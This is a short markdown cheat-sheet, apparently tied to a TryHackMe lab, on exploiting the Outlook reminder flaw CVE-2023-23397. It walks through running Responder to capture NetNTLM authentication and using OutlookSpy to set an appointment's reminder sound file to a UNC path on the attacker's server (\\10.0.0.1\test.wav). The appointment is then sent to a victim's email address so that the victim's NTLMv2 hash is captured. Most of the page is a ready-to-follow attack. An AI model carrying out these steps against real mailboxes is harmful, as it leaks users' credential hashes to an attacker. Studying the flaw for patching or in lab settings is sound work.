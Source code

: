 ```yaml
---
title: Outlook Reminder Privilege Escalation
description: The Outlook’s Reminder method is vulnerable to privilege escalation by abusing the UNC (Universal Naming Convention) file path of the reminder sound. CVE-2023-23397.
tags:
    - Privilege Escalation
    - Windows
refs:
    - https://tryhackme.com/room/outlookntlmleak
date: 2023-03-28
draft: false
---
```


## Exploitation

To carry out this attack, the OutlookSpy is required. So please install it before proceeding.

### 1. Start Responder

First off, start responder in our local machine to capture NetNTLM authentication.

```bash
# -I: Interface (eth0, tun0, etc.)
responder -I tun0
```

### 2. Modify Reminder Settings using OutlookSpy

1. In Outlook, select Home tab and click New Items then choose Appointment in drawer menu.
2. In new Appointment window, select OutlookSpy tab then click CurrentItem. The AppointmentItem window will open.
3. In AppointmentItem window, click Script tab and input the following value.
    
    Replace “10.0.0.1” with your local server ip.
    
    ```powershell
    AppointmentItem.ReminderOverrideDefault = true
    AppointmentItem.ReminderPlaySound = true
    AppointmentItem.ReminderSoundFile ="\\10.0.0.1\test.wav"
    ```
    
    After that, click Run button to apply the new properties.
    
    To confirm if the properties applied, click Properties tab and choose the following items in left pane.
    
    - ReminderOverrideDefault
    - ReminderPlaySound
    - ReminderSoundFile
    
    Close the AppointmentItem window.

### 3. Attach New Appointment

1. Click Appointment tab and click Reminder in the Options section. Then set 0 minutes.
2. Fill the Subject, Location and Message with arbitrary values.
3. To send the appointment to the victim address, click Forward in Actions section in Appointment tab. Then enter the victim email address as a destination. Now click Send button.

### 4. Capture the Victim’s NTLMv2 Hash with Responder

1. Because we set the reminder with 0 minutes, we should see the reminder popup immediately after saving.
2. In our terminal, responder, that we’ve launched, captured the NTLMv2 hash.
